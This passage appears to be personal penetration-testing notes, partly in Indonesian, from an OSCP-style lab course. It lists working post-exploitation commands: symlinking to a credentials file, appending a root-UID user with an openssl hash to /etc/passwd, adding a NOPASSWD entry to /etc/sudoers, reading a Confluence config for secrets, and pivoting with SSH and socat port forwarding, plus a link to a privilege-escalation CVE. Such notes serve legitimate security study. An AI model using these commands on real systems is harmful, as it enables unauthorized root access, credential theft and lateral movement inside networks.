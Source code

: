 13. Linux Symlinks
```bash
ln -sf <target_file> <your_file>
ln -sf /home/m.sander/personal/creds-for-2022.txt targetfile
```
14. Check mail stuff if there's SMTP present, `/var/spool/mail`

15. Portforwarding with SSH
```bash
sudo ssh -L <local_port>:<destination_server_ip:<remote_port> yanto@69.69.69.69
ssh -L 37999:localhost:37999 marcus@192.168.184.139 -p 42022
```

16. Adding user entry to /etc/passwd (usually sudoedit privesc)
```bash
openssl passwd -1 -salt shatternox nox

add the output with format like this

shatternox:$1$shattern$9HOGQF24OUddAPPpVKTGj1:0:0:root:/root:/bin/bash
```
Or can just add entry to /etc/sudoers
```
samantha ALL=(ALL) NOPASSWD: ALL
```
Usually combo with symlink
```bash
ln -s /etc/sudoers /file/wehave/privilege_on

>> Lalu edit file yang kita punya privilege tersebut. Biasanya pake sudoedit
```
17. NEW! CVE FOR PRIVESC
https://pwning.tech/nftables/


# Port Redirection and SSH Tunneling [PENTING]

# Linux Environment

>> Check dulu `ip addr` and `ip route`
>>> Ada berapa network interface. Kakinya ada berapa.
>>> Contoh lab: Check configuration dari target. 
```bash
cat /var/atlassian/application-data/confluence/confluence.cfg.xml
```
>> Di sini keliatan dia connect ke kaki yang ens224 (ip kepala 10.4.50.63/24)
>> Berarti kita harus forward kaki yang itu (check 18.2.2 dan 18.2.3 aja biar lebih jelas)

## Port Forwarding with `socat`
1) On Foothold Machine
-ddd >> verbose
```bash
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```
>> 10.4.50.215 >> IP dari server postgresqlnya yg tidak accesible dari kali
>> 5432 >> Port postgresql yang dia host
>> Foothold listen di port 2345 dan akan forward request ke TCP:10.4.50.215:5432
